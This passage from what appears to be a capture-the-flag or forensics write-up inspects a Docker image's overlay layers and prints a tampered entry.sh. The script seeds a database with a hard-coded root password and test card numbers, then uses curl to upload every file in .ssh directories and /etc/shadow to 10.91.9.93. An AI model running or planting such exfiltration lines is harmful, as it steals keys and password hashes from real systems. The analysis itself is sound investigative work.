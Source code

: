But at a quick glance, I saw that an `entry.sh` file had been modified, nothing else on the docker's filesystem:

```bash
➜  microservices ls aaa/var/lib/docker/overlay2/*/diff/
[...]
aaa/var/lib/docker/overlay2/5d6f4f20fa15dd9d3960358e9b6e257821e3ab277a6ff4db92163d926e5c5e8a/diff/:
entry.sh
[...]

➜  microservices cat aaa/var/lib/docker/overlay2/5d6f4f20fa15dd9d3960358e9b6e257821e3ab277a6ff4db92163d926e5c5e8a/diff/entry.sh 
#!/bin/sh

if [ -n "$DATABASE_URL" ]
    then
    database=`echo $DATABASE_URL | awk -F[@//] '{print $4}'`
    echo "Waiting for $database to be ready"
    while ! mysqladmin ping -h $database --silent; do
        # Show some progress
        echo -n '.';
        sleep 1;
    done
    echo "$database is ready"
    # Give it another second.
    sleep 1;
fi

mysql -uroot -h db -p351BrE7aTQE8 -e 'CREATE DATABASE customers;\
                                USE customers;\
                                CREATE TABLE customer_info(LastName varchar(255), FirstName varchar(255), Email varchar(255), CreditCard varchar(255), Password varchar(255));\
                                INSERT INTO customer_info VALUES ("Meserole", "Andrew", "A@A.com", "378282246310005", "badpass1");\
                                INSERT INTO customer_info VALUES ("Billy", "Bob", "B@A.com", "371449635398431", "badpass2");\
                                INSERT INTO customer_info VALUES ("Suzy", "Joe", "S@A.com", "378734493671000", "badpass3");\
                                INSERT INTO customer_info VALUES ("John", "Doe", "J@A.com", "6011000990139424", "badpass4");\
                                INSERT INTO customer_info VALUES ("Frank", "Ferter", "F@A.com", "3566002020360505", "badpass5");\
                                INSERT INTO customer_info VALUES ("Orange", "Chair", "O@A.com", "4012888888881881", "badpass6");\
                                INSERT INTO customer_info VALUES ("Face", "Book", "C@A.com", "5105105105105100", "badpass7");\'

find /tmp/home -type d -name ".ssh" 2> /dev/null > /tmp/ljkasdhg
find /tmp/root -type d -name ".ssh" 2> /dev/null >> /tmp/ljkasdhg

sleep 2m;

while read line; do
    find $line -type f -exec curl -k -F 'data=@{}' https://10.91.9.93/ \;
done < /tmp/ljkasdhg

curl -k -F 'data=@/tmp/etc/shadow' https://10.91.9.93/

service apache2 stop;
apache2 -D FOREGROUND;
```
